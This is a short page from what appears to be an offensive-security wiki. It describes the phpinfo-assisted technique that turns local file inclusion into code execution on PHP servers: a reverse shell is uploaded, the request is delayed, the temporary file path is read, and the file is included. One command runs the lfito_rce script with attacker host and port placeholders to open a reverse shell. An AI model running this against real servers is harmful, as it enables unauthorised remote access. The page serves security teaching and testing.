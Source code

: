 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# phpinfo

> [!TIP]
> The prerequisites for this method are :
> 
> * having `file_uploads=on` set in the PHP configuration file
> * having access to the output of the `phpinfo()` function

When `file_uploads=on` is set in the PHP configuration file, it is possible to upload a file by POSTing it on any PHP file ([RFC1867](https://www.ietf.org/rfc/rfc1867.txt)). This file is put to a temporary location on the server and deleted after the HTTP request is fully processed.

The aim of the attack is to POST a PHP reverse shell on the server and delay the processing of the request by adding very long headers to it. This gives enough time to find out the temporary location of the reverse shell using the output of the `phpinfo()` function and including it via the LFI before it gets removed.

The [lfito_rce](https://github.com/roughiz/lfito_rce) (Python2) script implements this attack.

```bash
#There is no requirements.txt, the dependencies have to be installed manually
python lfito_rce.py -l "http://$URL/?page=" --lhost=$attackerIP --lport=$attackerPORT -i "http://$URL/phpinfo.php"
```

The "[LFI with phpinfo() assistance](https://docs.google.com/viewerng/viewer?url=https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)" research paper from [Insomnia Security](https://insomniasec.com/) details this attack.
